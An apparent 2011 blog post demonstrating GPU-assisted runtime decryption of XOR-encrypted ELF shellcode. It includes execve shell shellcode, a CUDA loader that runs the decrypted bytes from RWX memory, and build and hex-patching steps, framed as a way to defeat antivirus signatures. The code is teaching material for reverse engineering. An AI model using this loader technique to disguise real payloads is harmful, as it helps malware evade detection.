 ```yaml
---
layout: post
title:  "GPU assisted ELF binary decryption"
date:   2011-12-18
excerpt: "Decrypt an ELF binary using CUDA at runtime"
tag:
- CUDA
- GPU
- malware
- reverse engineering
comments: true
---
```

Usually a malware writer, or a closed source product, use some techniques in order to make the binaries difficult to read. On the one hand, the anti-virus are unable to read the signature of the malware and on the other hand a reverse engineer’s life becomes difficult.
One technique (usually not implemented alone), is to encrypt some portions of the code and decrypt them at runtime, or better decrypt each time the code we want to run and then encrypt it back.
As GPU’s have extremely high computational power, we can have really complex functions for encrypting and decrypting our code. I’ve made a really simple example of a self-decrypting application and i’ll try to explain this step by step.

First of all what is our program going to do? Well it will spawn a shell. The assembly code (we need assembly code so it can be portable) to do that is:

{% highlight assembly %}
global _shell

_shell:
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 11
int 0x80
{% endhighlight %}

You can find codes like this freely available on the internet (this one is written by kernel panik), or you can make your own if you want specific things to be done (or just want to learn). We want our code to be portable, and not containing relative addresses.

So now that we have our assembly code, we compile it to an object file:

{% highlight bash %}
nasm shell.asm -f elf32 -o shell.o
{% endhighlight %}

Our code for the self-decrypting binary is this one, written in C for CUDA:

{% highlight c %}
#include <stdio.h>
#include <sys/mman.h>
#include <cuda.h>
 
#define len 21
 
__global__ void decrypt(unsigned char *code)
{
	int indx = threadIdx.x;
	code[indx] ^= 12;
}
 
extern "C" void _shell();
 
int main(void)
{
 
	unsigned char *p = (unsigned char*) _shell;
	unsigned char *d_shell, *h_shell;
	 
	h_shell = (unsigned char *) malloc(sizeof(char) * len);
	 
	int i;
	for(i = 0; i < len; i++)
	{
		h_shell[i] = *p;
		p++;
	}
	cudaMalloc((void **) &d_shell, sizeof(char) * len);
	cudaMemcpy(d_shell, h_shell, sizeof(char) * len, cudaMemcpyHostToDevice);
	decrypt<<< 1, len >>>(d_shell);
	cudaMemcpy(h_shell, d_shell, sizeof(char) * len, cudaMemcpyDeviceToHost);
	cudaFree(d_shell);
	char *d = (char *) mmap(NULL, len, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON,-1,0);
	 
	memcpy(d, h_shell, len);
	 
	((void(*)(void))d)();
}
{% endhighlight %}

Now, we have to find the length of the instructions. There are some ways to do this, but there is a project by oblique <a href="https://github.com/oblique/insn_len">here</a> that can do that very easily.

Now, some of you may wonder why i am mmaping and memcpying. Well there are some protections around, that prevent us from writing to some portions of memory such as .text. So we have to load our encrypted code, decrypt it and mmap it to a new portion of memory that can be executed. This is where our flags go. After that we are ready to execute our code.

Okay I know, it’s a simple xor decryption with a fixed key, not really encrypted, but this is just a proof of concept. You can have a more complex stream cipher function like RC4 ect. Also you do not need to have a key saved in the binary somehow, but brute force until the code “makes sense”. With such a computation power it is pretty easy.

Now we compile our source code with nvcc and link it:

{% highlight bash %}
nvcc shell_spawn.cu -c
gcc shell_spawn.o shell.o -o shell_spawn -L/usr/local/cuda/lib -lcudart
{% endhighlight %}

And now we have our executable! But first we have to patch our binary with our encrypted function. The reason why we used stream ciphers is because we don not want to change the size of our function, and make things more complex. One simple way to patch our elf binary is simply by opening it with a hex editor ( i used Bless), and find the code we want to patch. But how? It’s simple:

{% highlight bash %}
objdump -d -j .text shell_spawn
{% endhighlight %}

and if you search you will see the _shell function:

{% highlight assembly %}
8048a30:    31 c9                  xor    %ecx,%ecx
8048a32:    f7 e1                  mul    %ecx
8048a34:    51                     push   %ecx
8048a35:    68 2f 2f 73 68         push   $0x68732f2f
8048a3a:    68 2f 62 69 6e         push   $0x6e69622f
8048a3f:    89 e3                  mov    %esp,%ebx
8048a41:    b0 0b                  mov    $0xb,%al
8048a43:    cd 80                  int    $0x80
{% endhighlight %}

Now we simply encrypt the op codes. I used xor 12 so my output is this:

{% highlight bash %}
3dc5fbed5d6423237f6464236e656285efbc07c18c
{% endhighlight %}

After that we save our file and if we execute it we can see that a shell spawns!

<figure >
<a href="https://stack0verflow.files.wordpress.com/2011/12/selection_011.png"><img src="https://stack0verflow.files.wordpress.com/2011/12/selection_011.png"></a>
</figure>

We open our hex editor, load our binary and replace our old _shell function with our encrypted one:

<figure class="half">
	<a href="https://stack0verflow.files.wordpress.com/2011/12/selection_009.png?w=2000&h="><img src="https://stack0verflow.files.wordpress.com/2011/12/selection_009.png?w=2000&h="></a>
	<a href="https://stack0verflow.files.wordpress.com/2011/12/selection_010.png?w=2000&h="><img src="https://stack0verflow.files.wordpress.com/2011/12/selection_010.png?w=2000&h="></a>
	<figcaption><center>Finding and replacing the relevant code using a hex editor</center></figcaption>
</figure>

If we objdump our file, we can see our function _shell, but this time is doing random stuff:

{% highlight assembly %}
8048a30:    3d c5 fb ed 5d  cmp  $0x5dedfbc5,%eax
8048a35:    64 23 23        and  %fs:(%ebx),%esp
8048a38:    7f 64           jg 8048a9e <__libc_csu_init+0x4e>
8048a3a:    64 23 6e 65     and %fs:0x65(%esi),%ebp
8048a3e:    62 85 ef bc 07 c1   bound  %eax,-0x3ef84311(%ebp)
8048a44:    8c 90 90 90 90 90    mov    %ss,-0x6f6f6f70(%eax)
{% endhighlight %}

You can find my source also on github <a href="https://github.com/mpekatsoula/gpu_ad">here</a>

I want to develop a strong cipher and find a better way to patch my binary, so this is just the idea. If someone wants to go deeper i’d like to hear new ideas. Until then, feel free to comment, point mistakes etc :)

Sources:

[1]: <a href="https://stack0verflow.wordpress.com/2011/12/18/gpu-assisted-elf-binary-decryption/dcs.ics.forth.gr/Activities/papers/gpumalware.malware10.pdf">GPU Assisted malware</a>
